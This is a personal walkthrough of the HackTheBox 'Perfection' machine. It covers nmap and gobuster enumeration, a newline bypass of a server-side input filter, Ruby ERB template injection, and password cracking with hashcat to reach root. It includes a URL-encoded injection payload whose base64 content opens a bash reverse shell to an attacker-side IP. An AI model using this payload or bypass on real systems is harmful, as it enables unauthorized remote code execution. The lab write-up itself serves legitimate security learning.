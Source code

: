 ### Perfection Machine Write up 

I haven't made any machines in tryhackme or hackthebox for a long time, but now i'm starting with it again. Honestly i'll try to do more machines in hackthebox because tryhackme is getting a little boring, so let's go. On that machine i'm gonna try to use metasploit to organize the gathering information, let's see if it helps :). As i really don't know how to use it yet i'm gonna document everything down here to fix it in my memory. 

First of all, i need to download the postgresql to use the metasploit database and start the msfdb.

```bash
$ sudo pacman -S postgresql 
$ msfdb init
$ msfdb start
```

your output must be like this:

![](attachments/Pasted%20image%2020240303163502.png)

To check if everything is set up right, use db_status command after msfconsole. Before going straight to exploitation and crazy stuff we need to set up an workspace for us, the default workspace is "default" and you can check this using "workspace" command. I'm gonna create a new one to work in this room called akame_ws.

So now we can get started, start the machine in htb, connect to their vpn and add it in your hosts to make easier manipulate the address. 

Starting with a nmap scan to enumerate the machine below:

```bash
$ sudo nmap -Pn -sC -sV perfection.htb -oX perfection.xml | tee perfection_scan.log
```
-Pn - This flag disable the ping scan to see if the host or hosts are up and if they are, continue with the another scan such a port scan. This can be useful when you are enumerating a big network or more than one host, but in this case is useful so i disable it.

-sC - This flag is same that --script=default and it's related to the Nmap Script Engine(NSE), NSE is a feature from nmap that allow users to write and share scripts in Lua Language to useful network tasks and this scripts are executed in parallel your command runs and can be found at "/usr/share/nmap/scripts/". -sC means that nmap will use "defaults scripts" what means probably mean a bunch of scripts but it's useful(sometimes not stealth).

-sV - This flag is used to enumerate services and versions, when nmap finds a open port, he will tries to connect to get some information about what kinda of service it is and tries to guess the version. Again, is not the best choice if you are trying to be stealth again because it establish a connection from your machine to your target.

perfection.htb - Is the host name that you've added to your host file, it can be just the ip address too, doesn't change much.

-oX - I'm using this flag to generate a xml output to import using the msfconsole after the scan is done.

tee - The last one is a pipe and tee to send all output that is generate in terminal to perfection_scan.log file.

![](attachments/Pasted%20image%2020240303173233.png)

![](attachments/Pasted%20image%2020240303173606.png)
seeing the web page, looks like is a web site with a kinda of grade calculator with some inputs available at perfection.htb/weighted-grade

![](attachments/Pasted%20image%2020240303174616.png)

this inputs can be vulnerable to injections such as xss, but first i'm gonna analyze the all web site with developers tool and see what more we have.

![](attachments/Pasted%20image%2020240303175054.png)

it's a tip for users and looks like Susan is the admin, while i'm trying to explore this inputs i'm gonna let gobuster running to see if i can find any directory.

```bash
$ gobuster dir -u perfection.htb/ -w /usr/share/wordlist/directory.txt
```

So, while i was testing inputs i received this response here:

![](attachments/Pasted%20image%2020240303180627.png)

Maybe i can bypass this protection if it's client side, i'm gonna use burp to intercept the request and modify from there.

The protection was server side, i couldn't bypass it just avoiding javascript. I've spend a lot of time trying bypass this shit because every special characters were being blocked but only / and %. Because of the use of % is allowed i was thinking about html encode chars, but it doesn't help so much until i figure out that %0a was able to bypass the regex filter. After the "\n" or %0a, it doesn't filter and now i was able to insert whatever i want to. In this step i was thinking this as command injection directly in the machine but i was wrong. So after a lot tries i received a error message using this payload:

![](attachments/Pasted%20image%2020240304161652.png)

it's url encoded, normal must be look like this: mycategory%0a;<%= 7*7 %> 

but in that point i was thinking about how this shit works and doing some search looks like is a Server-Side-Template-Injection, i really underestimate this machine because the easy level but looks like here the things here are a little warmer. I didn't know this type of vulnerability so it's a good chance to learn.

This vulnerability appears when it's possible to use the native language syntax to inject malicious payloads, looking that way can be quite similar to sql injection, these payloads will run and being executed in somewhere, can be server-side or even loaded in user-side. Template are used for generate custom web pages, reusing static web pages elements while defining dynamic elements using parameters, like in this calculator. An template is getting my input and creating this result showing the grades to me. This [blog](https://medium.com/@olivia.j.01101001/how-to-use-php-templating-engines-for-web-development-6800c9048b9c) show good examples of template uses.

Using some portswigger examples:

`$output = $twig->render("Dear " . $_GET['name']);`

This is vulnerable to Server-Side-Template-Injection, but to exploit this you will need to use specific template syntax to escape from the render function and execute your own commands. There is a bunch templates that are being used thought the internet and to exploit one of these you need to identify the template engine and to achieve this you'll need to manually test different language-specif payloads and finding the right one in a process of elimination. 

In your case, according to the HackTricks website, the right one is called ERB and is the language is Ruby.

![](attachments/Pasted%20image%2020240304172815.png)

So now that we can execute commands, is simple to get a reverse shell, let's do it. 

![](attachments/Pasted%20image%2020240304182704.png)


```bash
category1=a///A77ss/e%0A;<%25%3d+system("echo IyEvYmluL2Jhc2gK
YmFzaCAgLWMgImJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTIxLzIyMjIgMD4mMSIK | base64 -d | bash")+%25>+

```

It was the payload that i did use to get a reverse shell and get the user flag in home directory of Susan user.  The good notice was that Susan were part of sudo group, so the only think that i did need was figure out the susan password.

![](attachments/Pasted%20image%2020240304182857.png)

So doing some search between files and some output from linpeas.sh i found this email here:

![](attachments/Pasted%20image%2020240304192638.png)

Ok so all good so far, susan's password is something like "susan_nasus_??????????". But this wasn't to find the susan password because bruteforce 1 billion will take a long time, so i was thinking that might had something else and it did. I found a credentials.db inside the Migration folder in susan's home directory. This type of file can be used to "reconstruct" a database(this is what i understood) using tools like sqllitebrowser and that was i did.

![](attachments/Pasted%20image%2020240304185352.png)

![](attachments/Pasted%20image%2020240304185259.png)

And now we have some hashes and probably is more realistic try to use a tool to "brute-force" it. Was we already knew about a half of the password, i used some wildcards in hashcat to make the process a little quicker.

![](attachments/Pasted%20image%2020240304192601.png)

And there is:

![](attachments/Pasted%20image%2020240304193125.png)

now just spawn a bash terminal and got the root flag :)
![](attachments/Pasted%20image%2020240304193420.png)

A lot of fun doing this machine, i don't think the first part of this machine was easy because create a payload that properly works to get a shell was really pain in my ass exploiting this ssti vulnerability but the root flag was really easy tbh.


